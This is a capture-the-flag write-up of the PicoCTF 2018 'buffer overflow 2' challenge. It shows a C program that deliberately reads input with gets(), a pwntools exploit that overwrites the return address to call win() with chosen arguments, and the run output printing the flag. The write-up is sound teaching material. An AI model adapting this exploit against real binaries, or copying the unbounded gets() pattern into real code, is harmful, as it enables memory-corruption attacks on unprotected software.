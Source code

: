 ```yaml
---
title: Calling a function with args
description: Exploiting a buffer overflow to call a function with specific arguments.
---
```


# Buffer Overflow - Calling a function with args

## Summary

Exploiting a buffer overflow to call a function with specific arguments.

## Challenge

### Statement

!!! note ""
    Challenge : buffer overflow 2 from PicoCTF 2018.

Alright, this time you’ll need to control some arguments. Can you get the flag from this program?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Answer

```shell
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f2f6cce698b62f5109de9955c0ea0ab832ea967c, not stripped
```

The goal of this challenge is to call the "win" function with the two arguments, *0xDEADBEEF* and *0xDEADC0DE*. As you have probably noticed, the *vuln* function is vulnerable to a buffer overflow attack which allows us to rewrite *EIP* and thus call the *win* function. We can pass it the two required arguments using the stack as we are in 32 bits.

```python linenums="1"
#!/usr/bin/env python3
from pwn import process, p32, ELF

# Run the binary
PROGRAM = "./vuln"
p = process(PROGRAM)

# Setup the payload
elf = ELF(PROGRAM)
win_func_addr = p32(elf.symbols["win"])
arg1 = p32(0xDEADBEEF)
arg2 = p32(0xDEADC0DE)
padding = ("A" * (100 + 12)).encode() # BUFSIZE + stuff we do not care about
padding2 = ("A" * 4).encode() # Override the return address

payload = padding + win_func_addr + padding2 + arg1 + arg2

# Sending the payload
p.sendlineafter("your string: \n", payload)
p.interactive()
```

Execution :

```shell
$ echo "ggflag" > flag.txt
$ python3 solve.py 
[+] Starting local process './vuln': pid 13568
[*] '/home/xxx/pico/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅\x04AAAAﾭ\xde\xde\xc0\xad\xde
ggflag
[*] Got EOF while reading in interactive
$ 
```

